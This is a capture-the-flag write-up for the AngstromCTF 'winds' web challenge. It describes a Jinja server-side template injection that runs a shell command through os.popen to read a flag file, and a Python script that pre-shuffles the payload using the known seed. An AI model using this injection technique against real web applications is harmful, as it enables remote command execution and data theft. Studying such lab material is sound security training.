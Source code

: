 <font size = '4'>
<p align = 'center'>
<b>
AngstromCTF - winds Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

Challenge: https://winds.web.actf.co/

app.py

<br>

<b>Exploitation:</b><br>

SSTI Challenge. We need to send the SSTI script `cycler.__init__.__globals__.os.popen('cat flag.txt').read()`, however its jumbled while sending. The seed is given, so script can be created to unjumble.

```python
import random


text1="{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

text = [i for i in range(len(text1))]
random.seed(0)
jumbled = list(text)
random.shuffle(jumbled)

print(jumbled)

newl=[0]*len(text1)
for i in range(len(text1)):
    newl[jumbled[i]]=text1[i]
print(''.join(newl))

random.seed(0)
jumbled = list(newl)
random.shuffle(jumbled)

print(''.join(jumbled))
```
